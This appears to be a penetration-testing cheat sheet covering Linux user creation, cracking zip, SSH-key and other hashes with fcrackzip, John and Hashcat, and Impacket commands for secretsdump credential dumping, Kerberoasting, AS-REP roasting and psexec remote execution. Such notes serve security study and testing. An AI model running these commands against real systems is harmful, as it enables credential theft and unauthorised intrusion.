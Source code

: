 ### Linux

```bash
adduser <uname> #Interactive
useradd <uname>

useradd -u <UID> -g <group> <uname>  #UID can be something new than existing, this command is to add a user to a specific group
```

## Password-Hash Cracking

*Hash Analyzer*: [https://www.tunnelsup.com/hash-analyzer/](https://www.tunnelsup.com/hash-analyzer/) 

### fcrackzip

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt <FILE>.zip #Cracking zip files
```

### John

> [https://github.com/openwall/john/tree/bleeding-jumbo/run](https://github.com/openwall/john/tree/bleeding-jumbo/run)

```bash
ssh2john.py id_rsa > hash
#Convert the obtained hash to John format(above link)
john hashfile --wordlist=rockyou.txt
```

### Hashcat

> [https://hashcat.net/wiki/doku.php?id=example_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
> 

```bash
#Obtain the Hash module number 
hashcat -m <number> hash wordlists.txt --force
```

## Impacket

```bash
smbclient.py [domain]/[user]:[password/password hash]@[Target IP Address] #we connect to the server rather than a share

lookupsid.py [domain]/[user]:[password/password hash]@[Target IP Address] #User enumeration on target

services.py [domain]/[user]:[Password/Password Hash]@[Target IP Address] [Action] #service enumeration

secretsdump.py [domain]/[user]:[password/password hash]@[Target IP Address]  #Dumping hashes on target

GetUserSPNs.py [domain]/[user]:[password/password hash]@[Target IP Address] -dc-ip <IP> -request  #Kerberoasting, and request option dumps TGS

GetNPUsers.py test.local/ -dc-ip <IP> -usersfile usernames.txt -format hashcat -outputfile hashes.txt #Asreproasting, need to provide usernames list

##RCE
psexec.py test.local/john:password123@10.10.10.1
```